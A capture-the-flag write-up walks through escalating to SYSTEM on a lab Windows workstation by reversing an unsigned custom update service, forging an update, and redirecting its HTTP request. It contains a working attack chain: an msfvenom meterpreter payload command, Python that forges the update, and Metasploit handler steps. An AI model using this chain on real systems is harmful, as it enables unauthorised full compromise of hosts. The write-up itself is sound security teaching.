

Seems Legit Writeup
===================
## Category
Corporate Network Pentesting

## Question
Assess the current HOTDESK workstation to discover and exploit vulnerabilties that an attacker could use to escalate privileges on the workstation.

## Designed Solution
Players need to identify the custom service. They need to analyse the service and determine that it's updates are not verified in a cryptographically secure manner. They need to determine how the update packages are generated. Once they have done this, they need to generate an update that will allow them to elevate to NT AUTHORITY\SYSTEM.

## Hints Given
None

## Player Solution Comments
3 teams solved this challenge during the game. All identified the privileged custom service running and pulled back the related executables. They all reversed the update package generation algorithm, generated a custom service update and on the proxy redirected the update request to serve their custom update.

## Writeup
We started this challenge from the `jasper.west` meterpreter shell that we had obtained in the previous challenge.

We first get a feel for the system. We start by taking a screenshot of the desktop.


Then we check which security patches are applied and find that the system is fully up to date.

We then check processes and services. We list services with `tasklist /SVC` and notice that there is a non-Windows service installed with the process name `UpdateService.exe` and the service name `SUUS`. Additionally, we see that there is a program running as jasper.west named `SUUSGUI.exe` which has the window title `Software Universal Update Service Management GUI`. To repurpose the question title, that `<sarcasm>Seems Legit</sarcasm>`.

```
meterpreter > shell
Process 3116 created.
Channel 3 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\jasper.west\Documents>tasklist /SVC
tasklist /SVC
Image Name                     PID Services                                    
========================= ======== ============================================
------- 8< 8< 8< SNIP --------
UpdateService.exe             1532 SUUS                                        
------- 8< 8< 8< SNIP --------
SUUSGUI.exe                   2092 N/A                                         
------- 8< 8< 8< SNIP --------

C:\Users\jasper.west\Documents>tasklist /V
*Note: I cut out some of the columns of the tasklist /V output to make it display better for this writeup*
Image Name      PID   Status   User Name            Window Title                                                            
=============== ===== ======== ==================== ===================================================
------- 8< 8< 8< SNIP --------
SUUSGUI.exe      2092 Running  ECWI\jasper.west     Software Universal Update Service Management GUI                        
------- 8< 8< 8< SNIP --------
```

Finally, we query the questionable service configuration with the command `sc qc suus`, the SERVICE_START_NAME is set to `LocalSystem`. Which means that this service runs as the SYSTEM account.

```
C:\Program Files\SUUService>sc qc SUUS
sc qc SUUS
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: SUUS
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : "C:\Program Files\SUUService\UpdateService.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Software Update Universal Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

We open the `C:\Program Files\SUUService` folder and see three files there. `SUUSCLI.exe`, `SUUSGUI.exe` and `UpdateService.exe`.

```
C:\Users\jasper.west\Documents>cd C:\Program Files\SUUService
cd C:\Program Files\SUUService

C:\Program Files\SUUService>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A241-E573

 Directory of C:\Program Files\SUUService

26/07/2015  11:25 PM    <DIR>          .
26/07/2015  11:25 PM    <DIR>          ..
25/07/2015  03:43 AM             7,168 SUUSCLI.exe
25/07/2015  03:43 AM           109,056 SUUSGUI.exe
25/07/2015  03:43 AM            10,752 UpdateService.exe
               3 File(s)        126,976 bytes
               2 Dir(s)  11,894,804,480 bytes free
```

We run SUUSCLI.exe and we get some output alluding to triggering a check for software updates by the service. This sounds somewhat interesting and we decide to look into it further. We download the three binaries for local analysis.

```
C:\Program Files\SUUService>SUUSCLI
SUUSCLI
==== Software Update Service Command Line Management Tool ====
       ==== by Serious Information Security Inc. ====
Attempting to trigger a check for software updates by the service
Opening global update trigger
Triggering an update check
Update Triggered.
```

Once the files are downloaded we run `file` across them and find that they are all .NET assembly programs. We run `strings` *ensuring that we list ascii AND unicode strings* and in UpdateService.exe which if you recall was running as SYSTEM we find references to downloading a URL. We decide to take a further look.

We will use MonoDevelop's assembly browser feature to decompile the binary to C# on our Kali system.

### Reverse engineering the update format and process
After installing monodevelop, we run it and click `View -> Assembly Browser`. We ensure that Assembly Browser Visibility dropdown is set to `All Members` and then click `File -> Open` and select `UpdateService.exe`. We now see on the left tree view that there is now a new entry named `UpdateService`. When we select it we get some information about the assembly.


We perform a quick analysis to look for any vulnerabilities. Due to the small size of the assembly, *both from a filesize perspective and from eyeballing the classes in the treeview*, we decided to perform the analysis in a linear fashion starting at the entry point to look for any issues.


We start with the EntryPoint at `Program.Main`. We can see that this method creates a new `ServiceBase` array. The only element is a new instance of `UpdateService`. It then calls `ServiceBase.Run()` on the array, this registers each service in the array. In this case, the only service is `UpdateService`. In .Net when a class inherits from `ServiceBase` and is registered, it's `OnStart` method will be called when the service is started. So our next function of interest is `UpdateService.OnStart()`.


Now we are looking at `UpdateService.OnStart`. We see some calls to `EventLog.WriteEntry`, in these cases and in later analysis we will disregard these, however we will note logs are being made, as it may help with troubleshooting later. Otherwise the functionality of this function is as follows.

1. Call `this.SetupUpdateEvent()`
  1. On failure, set a service exitcode, call stop and return.
  2. On success, create a new thread, start it and return.


Let's take a quick look at `Update.SetupUpdateEvent()`. It starts by creating a number of objects with Security in the name. What these first four lines (before the try) do is setup a security object such that Authenticated Users may freely access whatever event it is tied to. *Note: This is good for us, because it means that we can trigger the update process on demand as non-privileged users, which we suspect is what the other binaries do*. The method then attempts to create an event named `Global\\SoftwareUpdateService_CYSCA_UpdateCheck` and applies the security object, allowing Authenticated Users access to the event. It also assigns the new event to `this.mRunUpdateEvent`. If an exception is thrown while trying to create the event, the method will return false. otherwise it will return true.


Now lets go back to `UpdateService.OnStart()`. We now know the `this.SetupUpdateEvent` method sets up an event for triggering updates. The next step of the function creates a new thread with the the thread start set to `this.ServiceThreadProc`. The new thread is started and the current thread is allowed to return. *This needs to happen to avoid the service being timed out and terminated by the Service Control Manager*.


So we now pick up the analysis at the `UpdateService.ServiceThreadProc` method. This method is fairly straight forward. It runs an infinite loop so that the thread never completes. Within the infinite loop it will block and wait for the update event `this.mRunUpdateEvent` to be signalled. Once the event is signalled, it will call the `this.CheckForUpdateAndInstall` method. When `this.CheckForUpdateAndInstall` returns or throws an exception, it will reset the update event and restart the infinite loop.


Let's now take a look at `UpdateService.CheckForUpdateAndInstall`. Looking at `UpdateService.CheckForUpdateAndInstall` we can see that the method calls the `this.GetUpdateRequest` method which returns a object of type `UpdatePackage`. Based on the event log entry ('Got a valid update package. Executing'), if `this.GetUpdateRequest` returns non-null it seems as if there is an update available and it is valid. If it returns null there is either no update available or it is invalid and we return without doing anything further.

 We will delve into `this.GetUpdateRequest()` shortly, but first we will take a look at `updateRequest.ExecuteUpdater`.


The nice thing about .NET is that a lot of the information about the original classes and methods is retained, speeding up our analysis. For this reason and because it's not really relevant to the vulnerabilty we will spare you the details and let you know that, as advertised, `updateRequest.ExecuteUpdater` calls a function which writes the update file data to disk in `C:\Windows\Temp`, and then creates a process using the newly created file as an executable.


So back to the interesting functionality (or unknown functionality) let's now take a look at `UpdateService.GetUpdateRequest`. We see that this method creates a `WebClient` object and uses it to request update data from `http://serioussecurityinc.cysca/universal_updater_update`. It also uses `proxy.ecwi.cysca` as a `WebProxy` for this request. Once it has the data from the update website, it passes it to the static method `UpdatePackage.FromData(updateData)`. If an exception is thrown in `UpdatePackage.FromData(updateData)`, the function will return null. It looks like `UpdatePackage.FromData` would be where data validation and parsing happens, lets take a look..


Now we are in `UpdatePackage.FromData`. At a glance, this function looks pretty interesting. It starts by xor-ing each byte of the supplied update data with `UpdatePackage.XOR_KEY` (Which is 147).



It then calls the method `UpdatePackage.ExtractData(UpdateData)` with the newly xor-ed data. Let's take a look into the function `UpdatePackages.ExtractData`.


After looking at this function for a while, we see that the first `20 bytes` of the supplied data are extracted. The remaining data is then fed through the `SHA1` algorithm to generate a `20 byte` hash. The generated hash is then `compared` to the `original 20 bytes` that were extracted from the start of the supplied data. If they don't match, then we return null, if they do match we return the data that was fed into the `SHA1` algorithm. It looks as if this function is calculating a new hash over the update data, and comparing it with the supplied hash. This is likely to check if the update is corrupted rather than checking if it is from a trusted source. So we now know that the first `20 bytes` of the update contain an expected `SHA1` hash. This is stripped from our data buffer on return. Lets go back to `UpdatePackage.FromData`.


From it's context at the start of this method (*see UpdatePackage.FromData 1/2*), we can see that if `UpdatePackage.ExtractData` returns null, `UpdatePackage.FromData` will return null. But if `UpdatePackage.ExtractData` returns data, the initial bytes are compared with the bytes in the array `UpdatePackage.MAGIC`, which are: `83`,`85`,`117`,`115`. If they all match then it removes the first 4 bytes of data and then creates a new `UpdatePackage` passing the data minus the signature.

A quick look inside the `UpdatePackage` constructor shows that the supplied data is assumed to be valid. So at this point in our analysis, the update format seems to be data somewhat encapsulated with the entire thing obfuscated with a single byte xor. So far we haven't seen any validation of server certificates nor any cryptographically verifiable signatures in the update itself.

Now we know the entire format of the update data. The data doesn't contain any cryptographic signatures and doesn't use https. This means that if we can redirect the update check destined for `http://serioussecurityinc.cysca/universal_updater_update` we can forge a false update that will be run as SYSTEM on the workstation. Luckily for us, we know we can redirect HTTP requests because we did it in the last challenge.


### Getting SYSTEM

Now that we know the data format of the updates we need to create a false update to serve to the updater service. We generate a bind_tcp meterpreter with the command `msfvenom -p windows/meterpreter_bind_tcp --format exe -o payload.exe LPORT=4445`.

To create a forged update, we now need to take our metasploit payload exe, prepend the MAGIC signature `SUus`. Then we use `SHA1` to hash the MAGIC signature+payload bytes and then prepend it to the rest of the data. After all of this, we xor all the bytes in file with 147. Python code to perform these operations is below.

```python
import hashlib
filedata = "SUus"+open("payload.exe","rb").read()
data = hashlib.sha1(filedata).digest() + filedata
encodeddata = ""
for b in data:
	encodeddata += chr(ord(b) ^ 147)
open("universal_updater_update","wb").write(encodeddata)
```

We now start a python SimpleHTTPServer to serve the false update from our Kali machine. `python -m SimpleHTTPServer 80`

We modify the hosts file on the `proxy.ecwi.cysca` to redirect traffic destined for `serioussecurityinc.cysca` to our Kali system. This is the same method as used in `Flash Flood` so we won't cover it again here.

With the service update host redirected and the valid false update in place we now need to trigger the service event on the workstation to have it check for updates and download our false update.

A quick look at `SUUSCLI.exe` shows that all it really does is triggers this update event, so we will save ourselves some work and just use that.

```
C:\Program Files\SUUService>SUUSCLI
SUUSCLI
==== Software Update Service Command Line Management Tool ====
       ==== by Serious Information Security Inc. ====
Attempting to trigger a check for software updates by the service
Opening global update trigger
Triggering an update check
Update Triggered.

C:\Program Files\SUUService>netstat -ano
netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       1096
  TCP    0.0.0.0:4445           0.0.0.0:0              LISTENING       3936
  TCP    0.0.0.0:49152          0.0.0.0:0              LISTENING       348
  TCP    0.0.0.0:49153          0.0.0.0:0              LISTENING       780
  TCP    0.0.0.0:49154          0.0.0.0:0              LISTENING       892
  TCP    0.0.0.0:49166          0.0.0.0:0              LISTENING       444
  TCP    0.0.0.0:49180          0.0.0.0:0
```
We can now see that port 4445 has been opened by our meterpreter payload is listening for connections.

To connect to the new meterpreter session we enter into meterpreter session 1 (jasper.west) and add a TCP portfwd from our local machine to port 4445 on the HOTDESK system.

```
meterpreter > portfwd add -l 4445 -p 4445 -r localhost
[*] Local TCP relay created: 0.0.0.0:4445 <-> localhost:4445
```

We then background session 1 and setup an `exploit/multi/handler` with the `windows/meterpreter/bind_tcp` payload. We set `LPORT` to `4445` and set `RHOST` to `127.0.0.1`. We then run `exploit` to connect to the existing bind tcp port on the workstation. We run `getuid` to confirm that we have elevated privileges to SYSTEM.

```
msf exploit(handler) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp

msf exploit(handler) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf exploit(handler) > set LPORT 4445
LPORT => 4445
msf exploit(handler) > exploit

[*] Starting the payload handler...
[*] Started bind handler
[*] Sending stage (885806 bytes) to 127.0.0.1
[*] Meterpreter session 2 opened (127.0.0.1:58486 -> 127.0.0.1:4445) at 2015-11-02 06:22:59 +1100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Now that we are SYSTEM we read the flag for this challenge.

```
meterpreter > pwd
C:\Windows\system32
meterpreter > cat flag.txt
FLAG{942813733D504C91FDC59262DC9D1595}
```
